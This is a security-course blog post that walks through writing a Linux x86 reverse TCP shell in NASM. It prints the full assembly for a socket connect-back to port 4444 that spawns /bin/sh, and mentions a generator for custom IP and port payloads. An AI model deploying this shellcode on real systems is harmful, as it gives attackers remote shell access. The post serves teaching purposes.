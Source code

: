 ```yaml
---
layout: post
title: SLAE 0x2 - TCP Reverse Shell in NASM
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

Student ID: PA-7449

# Goal

The goal of this assignment is to craft my own version of *linux/shell_reverse_tcp*. This means that our shellcode connects to a target host on a specified port and returns a shell.

# How it works

To understand how it works, let's break it down to steps:

1. Create a socket file descriptor that we can use for communication
2. Connect to address and port
3. Connect *stdin*, *stdout* and *stderr* to socket
4. Execute */bin/sh*

Looking at the steps and comparing it to SLAE 0x1 Bind TCP shell, we can see that it's the same, but with connect to host instead of the bind/listen/accept syscalls. This makes this assignment a walk in the park if you already did the bind shell first and if you didn't, you should probably start with this instead.

# Assembly code

For the embedded code, I removed most of the inline comments. If you want to check out the full source code with all the comments, feel free to do it on my [Github](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.nasm). Most of the explanation has been unchanged from SLAE 0x1, but there are some small subtle changes in the old code as well.

#### Initializing

The first step is to initialize the registers to make sure that we start from a clear state when the shellcode is executed. Why? Because there could be some leftover data remaining in the registers, which can lead to *unexpected behaviour*. I XORd the EAX register with itself and moved it's value into the other registers. You can also XOR out the others or instead of moving POP a 0x00 value from the stack.

    ; xor register eax so we avoid null byte, then mov value into other registers as well   
    xor eax, eax
    mov ebx, eax
    mov ecx, eax
    mov edi, eax
    mov esi, eax


#### Socket

Next, we need to create the socket file descriptor. For this, I used the socket() syscall with the SYS_SOCKET socket call. This creates a socket file descriptor and gives back the file handler as the return value. My favorite reference for syscalls is [syscalls.kernelgrok.com](https://syscalls.kernelgrok.com/) which shows what each register needs to contain for the given syscall. Upon looking at the reference, we can see that for the sys_socketcall we need to set EAX to 0x66 (102), specify the call in EBX and pass the references in ECX.

For the first socket call (SYS_SOCKET), I needed to specify the domain (protocol family aka IPv4) AF_INET - 0x2, the type (TCP) SOCK_STREAM - 0x1 and the protocol, which in this case is 0x0 as we accept any protocol. To set up the call, I first moved 0x66 into the EAX register for the sys_socketcall, then I incremented the EBX register by one to contain the value of the SYS_SOCKET call. Then I pushed the value of the arguments in reverse order and stored the address in ECX. ECX was XORed out from before so it contained 0x00, EBX is 0x1 because of SYS_SOCKET so this was used for the type argument, while for AF_INET I pushed 0x2 byte on the stack.

    socket:
    mov al, 0x66 ; 102 sys_socketcall

    inc bl ; SYS_SOCKET 1 
    
    push ecx ; 0x0 - any - int protocol
    push ebx ; 0x1 - SOCK_STREAM - int type
    push byte 0x2 ; 0x2 - PF_INET/AF_INET - int domain
    
    mov ecx, esp ; store argument address in ecx

    int 0x80 ; sys_socketcall

#### Connect

This is the only major change compared to the bind shell. Instead of a the bind/listen/accept I now only had to do a connect function call. To my surprise connecting to a remote host is much-much easier than setting up a bind shell on your machine. 

The flow of the code is somewhat similar to the bind function call. I set up the registers for the function call first EAX -> 0x66 SYS_SOCKETCALL and EBX -> SYS_CONNECT. After that I pushed the sockaddr struct onto the stack, first the IP address in network byte order (connects back to localhost by default), then the port 4444, byte 0x2 (as in AF_INET) and finally stored the sockaddr_in pointer in ECX and pushed that on the stack. We also need the addrlen and the socket file descriptor, so I pushed 16 and the sockfd from ESI as well. Finally we just need to move the argument address to ECX and do the syscall.

    mov esi, eax ; move sockfd into esi
    mov al, 0x66; 102 sys_socketcall
    mov bl, 0x3; SYS_CONNECT 

    push 0x0101017f; 127.1.1.1 in network byte order 
    push word 0x5c11; port 4444 in network byte order
    push word 0x2 ; 0x2, sin_family - AF_INET

    mov ecx, esp ; store sockaddr_in pointer
    push byte 16 ; socketlen_t addrlen 16 bit

    push ecx ; sockaddr_in pointer
    push esi ; push sockfd

    mov ecx, esp ; store argument address in ecx
    int 0x80 ; syscall


#### Duplicate

In this section of the shellcode we bind together stdin, stdout, stderr and the socket file descriptor. I first swapped out EAX and EBX, so EBX points to the file descriptor. After that I zeroed out ECX as a start value for the loop.

    duplicate:        
    xchg eax, ebx ; move fdescriptor from accept into ebx for oldfd
    xor ecx, ecx ; zero out ecx for counter

The loop portion of the code moves 0x3f into EAX, calls the interrupt, increments ECX (loop counter), compares ECX with 0x3 and jumps back to the start of the loop if ECX is not equal to 3. What this means in practice is that it calls the dup2 system call on our socket with stdin, stdout and stderr.

    dup2:
    mov al, 0x3f ; int dup2 - 63 in hex
    int 0x80 ; dup2 syscall
    inc cl ; increment loop register
    cmp ecx, 0x3 ; compare ecx 0x3 
    jne dup2 ; if ecx != 3 continue looping

#### Execve

In the last part of the shellcode, we spawn /bin/sh. The code is straight out from the previous execve stack exercise without any major changes. We need to push //bin/sh0x0 onto the stack for EBX, the memory adress of //bin/sh,0x0 for ECX and 0x0 for EDX. 

    execsh:

    xor eax, eax ; null out eax
    push eax ; null byte
    
    push 0x68732f6e ; hs/n
    push 0x69622f2f ; ib//
    
    mov ebx, esp ; move stack pointer into ebx
    push eax ; push another null for the sys argv
    mov edx, esp ; sysargv arguments - address as above, but now with extra null bytes
    push ebx ; push address of the program name -> //bin/sh0x00
    mov ecx, esp ; arguments

    mov al, 11 ; execve syscall
    int 0x80 ; call execve


# Call graph

Here is the graph call for the shellcode. As *libemu* doesn't work on my machine, I had used *radare2* and *Cutter* to export the call graph.

![Graph call in Cutter]({{"/content/posts/slae/revshellgraph.png" | absolute_url }}){: .center}


# Shell 

Launching the shellcode on port 4444 in the compiled C test program and connecting to it with *netcat*.

![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae/revshell.png" | absolute_url }}){: .center}

# Shellcode generator

I also made a short shellcode generator script in Python3 to make custom payloads easier. It can be found on [my Github repository](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.py). Using it is really easy, it takes two arguments (ip and port) and echoes out the modified shellcode to *stdout*. The way it works is very simple, it transforms the IP and port into hex and replaces them in the hardcoded shellcode. There are a few validation rules, but it doesn't check for null or other badchars.

# Final Thoughts

After doing the previous assignment, this was a walk in the park. It took roughly 20 minutes to change everything in the bind tcp shell, so it connects to a remote host instead of listening locally and another 20 minutes to figure out the changes for the IP in the shellcode generation script. For those who are reading this because they plan to do SLAE, I would recommend starting with this instead of bind TCP.

Even though I found this assignment easier compared to the previous one, I still learned a lot. Coding your own shellcodes teaches you a lot about how they work and what happens to them when you send them to that poor-poor vulnerable service that you wanted to exploit. It was really awesome to see that /bin/sh was still there, waiting for instructions, when the shellcode failed to connect back to my attacker machine. I have seen this previously in the OSCP labs and it all became clear to me after seeing it with *my code*. These wins are the reason why I love infosec, no matter how much you know, you can always go deeper and learn something new.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).